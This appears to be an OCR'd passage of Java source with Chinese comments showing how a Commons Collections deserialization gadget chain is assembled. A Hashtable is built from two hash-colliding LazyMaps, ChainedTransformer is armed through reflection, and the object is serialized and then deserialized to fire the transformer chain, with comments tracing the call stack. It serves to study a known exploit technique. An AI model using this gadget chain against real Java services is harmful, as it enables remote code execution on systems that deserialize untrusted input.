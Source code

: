 ```java
         * lazyMap_0、lazyMap_1的HASH都是3439692，哈希冲突
         *
         * 113706 ^ 3522662 = 3439692
         */
        ht.put( lazyMap_0, "value_0" );
        /*
         * 此处会隐式调用:
         *
         * lazyMap_1.put( "scz", "scz" );
         *
         * 在Eclipse中针对"java.util.HashMap.put"设置条件断点:
         *
         * value.toString().equals("scz")
         *
         * 命中时调用栈回溯如下:
         *
         * java.util.HashMap<K,V>.put(K, V) line: 612
         * org.apache.commons.collections.map.LazyMap.get(java.lang.Object) line: 152
         * java.util.HashMap<K,V>(java.util.AbstractMap<K,V>).equals(java.lang.Object) line: 495
         * org.apache.commons.collections.map.LazyMap(org.apache.commons.collections.map.AbstractMapDecorator).equals(java.lang.Object) line: 129
         * java.util.Hashtable<K,V>.put(K, V) line: 470
         *
         * Hashtable.put
         *   AbstractMapDecorator.equals
         *     AbstractMap.equals
         *       LazyMap.get
         *         ChainedTransformer.transform
         *         HashMap.put
         */
        ht.put( lazyMap_1, "value_1" );
        /*
         * Needed to ensure hash collision after previous manipulations
         *
         * 为了让lazyMap_0、lazyMap_1的HASH一样，必须删掉隐式增加的"scz=scz"
         */
        lazyMap_1.remove( "scz" );
        /*
         * 通过反射方式设置tarray
         */
        Field           f           = ChainedTransformer.class.getDeclaredField( "iTransformers" );
        f.setAccessible( true );
        f.set( tchain, tarray );
        ByteArrayOutputStream
                        bos         = new ByteArrayOutputStream();
        ObjectOutputStream
                        oos         = new ObjectOutputStream( bos );
        oos.writeObject( ht );
        ByteArrayInputStream
                        bis         = new ByteArrayInputStream( bos.toByteArray() );
        ObjectInputStream
                        ois         = new ObjectInputStream( bis );
        /*
         * 通过反序列化HashSet触发LazyMap.get()
         */
        ois.readObject();
    }
}
```
